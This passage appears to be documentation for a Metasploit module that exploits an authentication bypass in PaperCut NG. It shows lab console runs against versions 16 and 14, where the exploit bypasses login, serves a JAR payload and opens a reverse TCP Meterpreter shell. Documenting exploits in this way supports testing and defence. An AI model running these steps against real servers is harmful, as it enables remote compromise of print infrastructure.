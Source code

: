```
meterpreter >
```

### Tested on Linux x64 with PaperCut NG Version 16.4.39159
```
msf6 > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=e79i55m6n77ex4p6ee3fu8u9
[+] The target is vulnerable.
[*] Using URL: http://10.0.4.101:8080/GuHN8K
[*] Server started.
[*] Sending payload for requested uri: /GuHN8K.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:58324) at 2023-05-11 03:22:13 +0000
[*] Server stopped.

meterpreter >
```
Note: The 'Form0' parameter for version 16 and lower does not take an additional '$Submit$1' value.

### Tested on Linux x64 with PaperCut NG Version 14.3.30457
```
msf6 > use exploit/multi/http/papercut_ng_auth_bypass
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set VERBOSE true
VERBOSE => true
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set RHOSTS 10.0.4.101
RHOSTS => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > set LHOST 10.0.4.101
LHOST => 10.0.4.101
msf6 exploit(multi/http/papercut_ng_auth_bypass) > run

[-] Handler failed to bind to 10.0.4.101:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Bypass successful and created session: JSESSIONID=b9g3gepapev0
[+] The target is vulnerable.
[*] Using URL: http://10.0.4.101:8080/kBXJNp
[*] Server started.
[*] Sending payload for requested uri: /kBXJNp.jar
[*] Sending stage (58851 bytes) to 10.0.2.100
[*] Meterpreter session 1 opened (10.0.2.100:4444 -> 10.0.2.100:32852) at 2023-05-11 03:56:24 +0000
[*] Server stopped.

meterpreter >
```
Note: Version 14, and possibly earlier, use a different HTML element to report the active version when exercising the vulnerable
'SetupCompleted' page.
